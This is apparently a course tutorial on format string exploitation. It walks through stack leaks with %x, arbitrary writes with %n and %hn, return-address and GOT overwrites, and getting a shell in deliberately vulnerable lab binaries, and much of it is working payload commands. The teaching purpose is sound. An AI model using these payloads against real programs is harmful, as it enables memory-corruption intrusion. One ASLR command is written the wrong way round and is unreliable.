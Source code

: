 ## Format Example

Let's take a look at the stack when printf is called

    b printf
    x/20x $esp (or stack 20 with pwndbg)

The first five words are the arguments for printf. The addresses
of the strings, and the integers.

Notably, the final argument points into the stack, and you can see
it stored on the stack at that address.

If we provide a format string, we can test it out our self.

    ./example_format AAAA %x..%x..%x..%x..%x

We can check out the minimum width modifier

    ./example_format AAAA %10x...%2x...%5x...

What happens if we provide a format string that doesn't match the arguments?

    ./example_format AAAA %x..%x..%x..%x..%x..%x..%x

What happens if we do that ALOT?

    ./example_format AAAA %x..%x..%x..%x..%x..%x..%x..%x..%x..%x..%x..%x..%x

That 41414141 is important. That's the location of the string "AAAA" stored in
the char array in main's stack frame.

Ok, lets do this clever now. (The $ must be escaped, as it has a special meaning
in bash)

    ./example_format AAAA "..%13\$x.."

Cool. One more, then lets get a shell

    ./example_format AAAA "..%13\$n.."

Segmentation Fault. **Boom**. XD

## Controlling EIP

Let's take a look at format.c

This program is susceptible to a buffer overflow. However, before we mess around
with it, let's run checksec.

    checksec format

Format has a stack canary, so we cannot use the buffer overflow.

Fortunately, format also has a format string vulnerability. Let's work on that.
Before we begin, disable ASLR (this randomizes the stack addresses). We can use
a froamt string vulnerability to get around ASLR, but we will do that later.

Disable ASLR:

    sudo sysctl kernel.randomize_va_space=0

With ASLR disabled, lets take a look at the binary.

    b printf
    stack 20

We want to gain control of the stored return address, which is at 0xffffceac.
Just like in the example, we can provide an address and use the %n format to
write to that address. Let's find where our address falls.

    AAAA...%1$x

Thinking about our stack frame, the arguments for printf begin at 0xffffce60,
just above the return address back to vuln. If 0xffffce60 is our format string,
counting backwards, we should find AAAA at argument 5 after that.

    AAAA...%5$x

Awesome. We wanted to overwrite 0xffffceac, so let's try that.

    python -c "print '\xac\xce\xff\xff...%5\$x'" | ./format

Ok, now we want to write to that address using the %n modifier. We can use the
minimum width modifier we saw before to do that. Let's try writing 10 there, and
check out what happens in GDB.

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%10c%5\$n'")
    finish

Well, we wanted to write 10 (0xa), but wrote 14 (0xe). Why? The address counts
as 4 bytes, since it ends up getting printed. Thus, to write a particular value,
we must use:

> what_we_want - bytes_already_written

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%6c%5\$n'")
    finish

The address of shell is at 0x080484cb (disass shell). This is 134513867 - 4 =
134513863

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%134513863c%5\$n'")
    finish

Wow... That's a lot of printing. It worked though!

    python -c "print '\xac\xce\xff\xff%134513863c%5\$n'" | ./format

Huh... That didn't work. We have to tell our shell we want to continue typing
after python is done.

    {python -c "print '\xac\xce\xff\xff%134513863c%5\$n'"; cat - } | ./format
    ls
    whoami

This solution can be found in simple_sol.py

Run the solution like so:

    {./simple_sol.py; cat - } | ./format

## How to get around ASLR

Ok, let's get around ASLR:

    sudo sysctl kernel.randomize_va_space=0

Our solution will now no longer work, as the address of the stored return address
has been randomized. Let's check this out in GDB. Run GDB on format. Note that
GDB will actually turn ASLR off for the program to make it easier to debug, so
we will have to turn it back on.

    show disable-randomization
    set disable-randomization off
    show disable-randomization

With GDB no longer turning off ASLR, run:

    b printf
    r
    AAAA
    stack 21

The return address is no longer stored at 0xffffceac!

To get around ASLR, we are going to overwrite an entry in the GOT table.

In short, the Global Offset Table is used to look up the addresses of library
functions such as printf, system, or gets. The address of the GOT entry is static,
even with ASLR, since the program must call that address directly. Think of the
GOT as a phone book: you look up the known address of the GOT entry, and it tells
you the actual address to go to.

We will change one of these entries to point to shell() instead. To trigger shell,
we must call that function after we overwrite the GOT entry. Taking a look at
format.c, no library function is called after the vulnerable printf. However,
in example_format.c, there is another printf immediately after the vulnerable
printf! Let's exploit the example code!

**The compiler is smart.** If we examine the assembly for main, we see that it replaced
our printf with putchar, since we are only printing a single char. Thus, we actually
need to use putchar instead of printf.

So, game plan:

1. Determine the address of the GOT entry for putchar
2. Use our format string to overwrite that address with shell (0x080484fb)
3. Call putchar (which actually calls shell)

To determine the address of the GOT entry for putchar, we can use binaryninja, or
use objdump:

    objdump -R ./example_format

Ok, so the address of putchar will be stored at 0x0804a01c

Let's setup our format string now. We will use the same method as before: run
GDB and find which variable the address is.

    ./example_format AAAA "%13\$x"

Note that the AAAA is not actually a part of our string, but is just on the
stack! Thus, we don't need to subtract 4 like before! Let's do it! Run the following
in GDB:

    b printf
    r `python -c "print '\x1c\xa0\x04\x08'"` "%134513915x%13\$n"
    c
    x/x 0x0804a01c
    finish
    x/x 0x0804a01c

Now run the program, and get shell!

    ./example_format `python -c "print '\x1c\xa0\x04\x08'"` "%134513915x%13\$n"

Booyah!

## Don't print so much!

The excessive printing from these format strings is a bit annoying, and makes
it extremely annoying to debug. We are **only** writing 0x0804a01c bytes... That's
134513915 bytes. What if the code was at 0x1804a01c? That's 402956316!! Now, what if
the address we wanted to write was a 64 byte address for a system call? 0x7fffffffddc0
That's 140737488346560

We can do better.

There is a special modifier for %n that writes 2 bytes instead of 4. %hn

We can use this to write in smaller chunks. Instead of writing all of 0x080484cb
at one time, we can write 0x84cb to the lower 2 bytes, and 0x0804 to the upper 2
bytes.

We will now need to place two addresses in the format string: one for the lower 2 bytes
and one for the upper 2. Take a look at sol.py for an example.

Calculating the second value to write is a bit more complicated. The first write was
0x84cb, but the second write needs to be 0x0804! We have overshot the second write. However,
we can wrap around to find this value again. If we write 0x10804, only the first 2 bytes get
written, thus writing 0x0804. In the solution, to get this wrap around we do

> secondWrite =  0x0804 + 0x10000 - 0x84cb

Another solution is to do the smaller write first! I didn't do that though so you could see how
the wrap around works. Notice how much faster it prints, since we only make 0x10804 bytes total.

    {./sol.py; cat - } | ./format

